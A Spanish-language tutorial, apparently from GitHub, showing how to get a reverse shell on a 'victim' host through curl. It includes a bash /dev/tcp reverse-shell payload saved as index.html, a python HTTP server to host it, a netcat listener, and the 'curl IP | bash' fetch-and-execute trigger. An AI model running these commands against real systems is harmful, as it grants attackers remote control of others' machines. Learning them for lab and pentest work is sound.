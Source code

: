 # Como establecer una reverse Shell con el comando Curl

En este artículo vamos a ver como establecer una `reverse shell` mediante una petición con `Curl`.

## ¿Qué es Curl?

Curl es un herramienta cuya finalidad es transferir datos a través de una URL. Es un comando disponible en la mayoría de los
sistemas basados en Unix. Es una abreviatura de `Client URL`. Los comandos de Curl están diseñados para funcionar como una forma
de verificar la conectividad a las URL y como una gran herramienta para transferir datos.

![Captura de pantalla 2022-07-21 225432](https://user-images.githubusercontent.com/103068924/180313605-edaba56e-d31d-4c74-bf50-4db5bfa3b27e.png)

* Información más detallada del funcionamiento de Curl --> <a href='https://www.hostinger.es/tutoriales/comando-curl' style="text-decoration:none">Link</a>

# Ejecución:

Para realizar esta opeción lo primero que debemos comprobar es que podamos realizar la petición desde el equipo victima y que este tenga Curl instalado.
Una vez tenemos esto solucionado vamos a ver el funcionamiento de manera básica.

Cuando realizamos una petición con Curl desde la máquina victima:

   curl [Ip de Escucha]
   
   curl 10.10.14.25
   
Y nosotros nos ponemos en escucha desde nuestra terminal, utilizando un servicio http montado con python3 por el puerto 80:

   sudo python3 -m http.server 80

El funcionamiento es el siguiente, cuando Curl realiza una petición a nuestro equipo, estamos realizando una perticion a `http` tratando de conseguir
un `Index.html` (Para poder interpretar la página), aquí es donde viene la trampa.

Lo que nosotros vamos hacer es crear nuestro propio archivo `index.html`, de forma que por dentro tenga los comandos para establecer una reverse shell con bash.
De esta manera cuando realicemos la petición por Curl y le ordenemos ejecutarlo con bash se nos abrira la reverse shell que hayamos establecido.

El archivo `index.html` debe guardarse en el mismo directorio desde donde utilicemos el servicio http. 

# Ejemplo Practico:

Vamos a necesitar tres terminales, una desde donde realizar la petición por Curl desde el equipo victima, una segunda donde utilizaremos el servicio http para 
compartir el archivo `index.html` y una tercera donde nos pondremos en escucha con `netcat` (Aquí recibiremos la reverse shell).

Lo primero que vamos hacer es preparar nuestro archivo `index.html`, creamos una carpeta llamada `shell` independiente para que nos sea más facil:

    sudo mkdit shell
    
    cd shell

Ahora creamos y definimos nuestro archivo `index.html`:

   sudo nano Index.html
   
Copiamos y pegamos el siguiente código:

```
#!/bin/bash

bash -i >& /dev/tcp/[Vuestra Ip]/[Puesto de escucha de NetCat] 0>&1

```

Debería de quedar algo así:

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.25/443 0>&1
```

Una vez copiado con vuestros datos, guardais (Ctrl x O) y salis (Ctrl + X).

Bien ya tenemos nuestra reverse shell en bash preparada y apuntado al pueto 443. Ahora desde la misma terminal y permaneciendo en el directorio que contenga
el archvio que acabamos de crear vamos a ejecutar el servicio http con python3 para poder compartir el archivo `index.html`.

    sudo python3 -m http.server 80
    
Abrimos nuestra segunda terminal y ponemos a `Netcat` en escucha por el puerto 443:

    sudo nc -lvnp 443
    
Ya tenemos nuestro puerto preparado para recibir la reversehe shell.
    
Finalmente nos dirigimos a la terminal donde estemos en contacto con la victima, es este ejemplo realizare la petición utilizando BurpSuite. Pero básicamente
lo que debemos es realizar la siguiente petición desde el equipo victima:

    curl 10.10.14.25 | bash
    
* `Curl` : Realizara la petición y copiara el archivo index.html desde nuestro servidor creado en python3.
* `bash` : Ordena la ejecución o interpretación del comando definido dentro del archivo, en nuestro caso, estblecer una reverse shell por el puertop 443.

Tras ejecutar este ultimo comando se nos tendría que haber abierto una shell en la terminal por la que estabamos en ecucha con NetCat.



